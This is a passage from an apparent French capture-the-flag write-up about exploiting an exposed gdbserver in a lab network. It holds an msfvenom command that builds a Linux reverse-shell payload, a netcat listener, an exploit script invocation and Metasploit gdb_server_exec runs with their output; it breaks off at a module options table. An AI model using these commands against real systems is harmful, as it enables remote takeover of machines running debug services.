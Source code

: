 ## Le script python
Voici comment on l'utilise:
```
Usage: python3 50539.py <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 50539.py 10.10.10.200:1337 rev.bin
```
Ok let's go 

Le shell:
```
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Saved as: rev.bin
```
netcat:
```
listening on [any] 4444 ...
```
Le script:
```
python3 50539.py 10.10.80.229:6048 rev.bin
[+] Connected to target. Preparing exploit
[!] ERROR: Unexpected response. Try again later
```
Super.

## Metasploit
Apres quelques galères car c'étais pas la bonne architecture, puis pas le bon payload,...
```
msf6 exploit(multi/gdb/gdb_server_exec) > run

[*] Started reverse TCP handler on 10.11.50.195:4444 
[*] 10.10.80.229:6048 - Performing handshake with gdbserver...
[*] 10.10.80.229:6048 - Stepping program to find PC...
[*] 10.10.80.229:6048 - Writing payload at 00007ffff7fd0103...
[-] 10.10.80.229:6048 - Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer
[*] Exploit completed, but no session was created.
```
Bon bah... Voila...
Je test plusieurs payloads, j'en trouve un qui fonctionne !
```
payload/linux/x64/shell_reverse_tcp
```
Voici la configuration:
```
msf6 exploit(multi/gdb/gdb_server_exec) > show options

Module options (exploit/multi/gdb/gdb_server_exec):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```